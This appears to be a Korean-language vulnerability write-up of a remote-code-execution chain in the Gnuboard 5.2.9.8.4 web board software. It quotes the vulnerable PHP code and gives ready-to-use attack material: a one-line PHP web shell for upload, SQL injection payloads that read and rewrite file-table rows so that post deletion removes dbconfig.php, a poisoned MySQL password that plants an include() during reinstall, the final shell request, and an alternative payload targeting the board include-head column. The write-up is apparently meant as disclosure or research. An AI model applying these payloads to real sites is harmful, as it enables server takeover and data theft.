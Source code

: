 # 그누보드 5.2.9.8.4 RCE
>해당 취약점은 그누보드 5.2.9.8.4 에서 터지는 SQL Injection을 이용한 RCE 취약점입니다.
>
## 취약점 설명
>그누보드 /bbs/move_update.php 29~30,164 라인
<pre><code>$move_bo_table = $_POST['chk_bo_table'][$i];
$move_write_table = $g5['write_prefix'] . $move_bo_table;</code></pre>
>위의 코드를 보면 별다른 검증없이 "$_POST['chk_bo_table'][$i]" 변수의 값을 "$move_write_table" 변수에 넣어주는것을 알 수 있습니다.
<pre><code>sql_query(" update $move_write_table set wr_parent = '$save_parent' where wr_id = '$insert_id' ");</code></pre>
>그리고 위와 같이 sql_query함수를 이용하여 update 하는 SQL을 날려주는데 이때 테이블 clause에서 SQL Injection이 가능하여 다른 테이블의 값을 조작할 수 있습니다.

<pre><code>        $sql = " insert into {$g5['board_file_table']}
                    set bo_table = '{$bo_table}',
                         wr_id = '{$wr_id}',
                         bf_no = '{$i}',
                         bf_source = '{$upload[$i]['source']}',
                         bf_file = '{$upload[$i]['file']}',
                         bf_content = '{$bf_content[$i]}',
                         bf_download = 0,
                         bf_filesize = '{$upload[$i]['filesize']}',
                         bf_width = '{$upload[$i]['image']['0']}',
                         bf_height = '{$upload[$i]['image']['1']}',
                         bf_type = '{$upload[$i]['image']['2']}',
                         bf_datetime = '".G5_TIME_YMDHIS."' ";
        sql_query($sql);
    }</code></pre>

>그누보드에서 파일을 업로드하는 기능이 있는데 이 파일을 업로드 하면 위와 같이 "g5_board_file" 라는 테이블에 파일 명, 게시판 명, 게시글 번호 등등이 Insert 됩니다.

>이때 간단한 웹 쉘 코드인 "<?php system($_GET['cmd']); ?>" 등의 코드를 작성하여 업로드 합니다.

> 이후 다음과 같은 SQL Injecttion 페이로드 글의 내용을 조작하여 업로드된 진짜 파일명을 알아냅니다
>"notice set wr_content=(select bf_file_name from g5_board_file where wr_id=1 and bo_table=0x6578706c6f6974)#"


<pre><code>        if (!delete_point($row['mb_id'], $bo_table, $row['wr_id'], '쓰기'))
            insert_point($row['mb_id'], $board['bo_write_point'] * (-1), "{$board['bo_subject']} {$row['wr_id']} 글삭제");

        // 업로드된 파일이 있다면 파일삭제
        $sql2 = " select * from {$g5['board_file_table']} where bo_table = '$bo_table' and wr_id = '{$row['wr_id']}' ";
        $result2 = sql_query($sql2);
        while ($row2 = sql_fetch_array($result2)) {
            @unlink(G5_DATA_PATH.'/file/'.$bo_table.'/'.$row2['bf_file']);
            // 썸네일삭제
            if(preg_match("/\.({$config['cf_image_extension']})$/i", $row2['bf_file'])) {
                delete_board_thumbnail($bo_table, $row2['bf_file']);
            }
        }

        // 에디터 썸네일 삭제
        delete_editor_thumbnail($row['wr_content']);</code></pre>

>위는 당시와 비슷한 버전의 글을 삭제하는 delete.php인데 위에서 insert 한 "g5_board_file" 테이블의 "bf_file" 컬럼의 값을 select하여 unlink 하는것을 알 수 있습니다.
>이를 위의 SQL Injection을 이용하여 다음과 같은 페이로드를 이용하여 해당 게시글의 bf_file 컬럼의 값을 변경해주었습니다

>"notice as a inner join `g5_board_file` as b set b.bf_file=0x2e2e2f646174612f6462636f6e6669672e706870 where wr_id=1 and bo_table=0x6e6f74696365#"

<pre><code>$mysql_host  = $_POST['mysql_host'];
$mysql_user  = $_POST['mysql_user'];
$mysql_pass  = $_POST['mysql_pass'];
$mysql_db    = $_POST['mysql_db'];
$table_prefix= $_POST['table_prefix'];
$admin_id    = $_POST['admin_id'];
$admin_pass  = $_POST['admin_pass'];
$admin_name  = $_POST['admin_name'];
$admin_email = $_POST['admin_email'];

$dblink = @mysql_connect($mysql_host, $mysql_user, $mysql_pass);</code></pre>

<pre><code>$file = '../'.G5_DATA_DIR.'/'.G5_DBCONFIG_FILE;
$f = @fopen($file, 'a');
fwrite($f, "<?php\n");
fwrite($f, "if (!defined('_GNUBOARD_')) exit;\n");
fwrite($f, "define('G5_MYSQL_HOST', '{$mysql_host}');\n");
fwrite($f, "define('G5_MYSQL_USER', '{$mysql_user}');\n");
fwrite($f, "define('G5_MYSQL_PASSWORD', '{$mysql_pass}');\n");
fwrite($f, "define('G5_MYSQL_DB', '{$mysql_db}');\n");
fwrite($f, "define('G5_MYSQL_SET_MODE', {$mysql_set_mode});\n\n");
fwrite($f, "define('G5_TABLE_PREFIX', '{$table_prefix}');\n\n");</code></pre>

> "dbconfig.php" 파일이 삭제되면 그누보드에선 install이 되지 않았다고 판단하여 위와 같은 install_db.php를 이용하여 다시 dbconfig.php 파일을 write해줍니다.

> 이 때 "mysql_connect" 함수에서 정상적인 connection을 위해 php코드를 본인의 로컬 mysql 서버에 " ');include($_GET['foo']);// "와 같은 DB or PASSWORD를 셋팅해주고 외부접속을 허용합니다.

>이 후 index.php?foo=파일명&cmd=ls 를 하면 정상적으로 쉘을 획득할 수 있습니다.

## 다른 exploit 방법

>그누보드에서는 각각의 게시판마다 g5_board 테이블에 있는 bo_include_head,bo_include_head 컬럼들의 값을 각각 상단 파일,하단 파일로 include합니다 때문에 다음과 같은 페이로드를 통해서 더욱 간단한 쉘 획득이 가능합니다.

>"notice as a inner join g5_board as b set b.bo_incldue_head=concat(0x2e2e2f646174612f6578706c6f69742f,(select bf_file from g5_board_file where wr_id=글 번호
))"
